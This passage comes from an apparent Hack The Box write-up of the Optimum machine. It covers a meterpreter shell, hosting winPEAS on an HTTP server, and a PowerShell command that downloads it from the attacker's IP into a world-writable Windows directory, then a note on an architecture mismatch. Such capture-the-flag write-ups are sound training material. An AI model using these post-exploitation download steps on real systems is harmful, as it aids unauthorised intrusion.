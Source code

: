 It worked! We got a **meterppreter** as user `kostas`:

![meterpreter session](/assets/img/htb/machines/windows/easy/optimum/MSF-SUCCESS.png)

### Downloading winPEAS

1. Download [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe) (64 bits version)

2. On our machine we run an HTTP Server:

{% highlight bash %}
python3 -m http.server
{% endhighlight %}

3. From victim's target, go to a world-writeable directory (`c:\Windows\System32\spool\drivers\color>`) and download `winPEAS.exe`: 

{% highlight powershell %}
powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/winPEAS.exe', 'c:\Windows\System32\spool\drivers\color\winPEAS.exe')"
{% endhighlight %}

Unfortunately, I didn't find anything interesting in **winPEAS** output.

Therefore, I decided to use **metasploit suggester** &darr;

### Exploit Suggester

Running `sysinfo` within our **meterpreter** session shows us an issue. We're facing a Windows with a 64-bit architecture while our meterpreter is 32 bit (x86):

![meterpreter sysinfo](/assets/img/htb/machines/windows/easy/optimum/MSF-sysinfo.png)
